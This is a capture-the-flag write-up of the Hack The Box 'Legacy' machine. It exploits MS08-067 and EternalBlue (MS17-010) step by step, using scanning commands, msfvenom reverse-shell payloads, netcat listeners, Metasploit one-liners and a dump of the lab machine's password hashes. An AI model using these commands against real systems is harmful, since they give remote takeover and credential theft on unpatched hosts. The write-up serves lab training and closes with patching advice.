In this writeup I have pwned Legacy from hackthebox in all possible ways using manual exploits and metasploit.

MS08-067, MS17-010

### Enumeration

#### rustscan
```
rustscan --accessible -a 10.129.178.214 -- -Pn -p-
```

_rustscan results_

#### nmap
```
sudo nmap -Pn -A -O -p 139,445 10.129.178.214 | tee nmap.log
```

_nmap results_

```
sudo nmap -Pn --script=smb-vuln* -p 139,445 10.129.178.214 | tee nmap-vulns.log
```

_nmap vulnerablity scan results_

Target running 
- OS : Windows XP SP2 or Later.
- SMB Service with disabled message signing.

This can lead to exploitation using eternal blue exploit on outdated OS with vulnerable state of service.

nmap vulnerablity script scan gave confirmation target is vulnerable to 
- CVE-2008-4250 : Microsoft Windows system vulnerable to remote code execution (MS08-067)
- CVE-2017-0143 : Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)

#### smbclient

```
smbclient -NL 10.129.178.214
smbmap -H 10.129.178.214
```
**`smbmap`** and **`smbclient`** confirmed no shares are accessible.

---

### Exploitation

#### MS08-067

For exploiting the target using MS08-067 we can use the following exploit from github. [MS08-067](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)

```
wget "https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py"
```

This exploit have dependencies of python library `pycryptodomex / pycryptodome` which was previously known as `pycrypto`.

Installing `impacket` in python virtual environment will fulfill the minimum requirement to execute exploit.

```
virtualenv -p /usr/bin/python venv
source venv/bin/activate

git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip install .

# cd back to exploit location.
```


Now we can test if exploit is usable using simple run.
```
python ms08-067.py
```
This will give usage example to run this exploit.


This exploit also requires shellcode to get a reverse shell. 
We can generate shell code using following
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```


We have to copy this generated shellcode and put it in exploit at line 53.

We have to remove the existing shell code and put out shellcode in `shellcode()` function.



Now we are ready to execute exploit script using the following command.

```
rlwrap nc -lvnp 1337 # setting up listener

python ms08-067.py 10.129.178.214 6 445
```

> Note : We are selecting 6 because target is running Windows XP SP3 which was found in nmap enumeration. In case of other language of XP or other varient of OS. Enumeration and hit n trial will be required.

**And finally we get a shell.**


---

#### MS17-010

For exploiting the target using MS17-010 we can use the following exploit from github. [MS17-010](https://github.com/helviojunior/MS17-010)

```
git clone https://github.com/helviojunior/MS17-010.git
cd MS17-010/
python checker.py 10.129.178.214
```
The `checker.py` script also confirms this is vulnerable to MS17-010.



This exploit requires malicious executable to get a reverse shell. We will create it using following commands in the same location of exploit.
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > eternalblue.exe
```

And run the exploit after setting up ncat listener.

```
rlwrap nc -lvnp 1337

# python send_and_execute.py TARGET_IP eternalblue.exe
python send_and_execute.py 10.129.178.214 eternalblue.exe
```

**And finally we get a shell.**


---

#### Metasploit | MS17-010

With below one liner we can exploit target with Metasploit MS17-010 module and get meterpreter shell.
```
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 4444; set RHOSTS 10.129.178.214; run;"
```



#### Metasploit | MS08-067

```
msfconsole -q -x "use exploit/windows/smb/ms08_067_netapi; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 5555; set RHOSTS 10.129.178.214; run;"
```


---

### Post Exploitation
This system didn't had whoami to check the privileges.

#### nc TCP Reverse Shell 

Using SMB Server and executing we got to know we have highest privilege in system.

```
# in attacker machine
sudo smbserver.py a /usr/share/windows-resources/binaries/ 

# in target machine
\\10.10.17.81\a\whoami.exe
```



#### Meterpreter

Using `getuid` we got current user. 
And using `hashdump` following hashes were collected.
```hash
Administrator:500:b47234f31e261b47587db580d0d5f393:b1e8bd81ee9a6679befb976c0b9b6827:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:0ca071c2a387b648559a926bfe39f8d7:332e3bd65dbe0af563383faff76c6dc5:::
john:1003:dc6e5a1d0d4929c2969213afe9351474:54ee9a60735ab539438797574a9487ad:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:f2b8398cafc7174be746a74a3a7a3823:::
```



---

### Recommendation

SMB was enabled on outdated un-supported Winodws XP and SMB message signing was disabled. And running with privileges of Administrator.

> Update to latest supported version of Windows. 
> Advise not to run SMB service with disabled message signing as Administrator.

---

### Key Learning
In this pentest, with easiest enumeration we got to know target is vulnerable to eternal blue. And there are a lot of exploits available for this on github and other resources.

Going forward keeping a fork of working exploit with instructions to run it will help saving a a lot time in pentest period.

Outdated exploits like Eternal blue have dependency issues because of older version of python libraries. 

To save trouble it would be good idea to get libraries in virtual environment and run the exploit.

---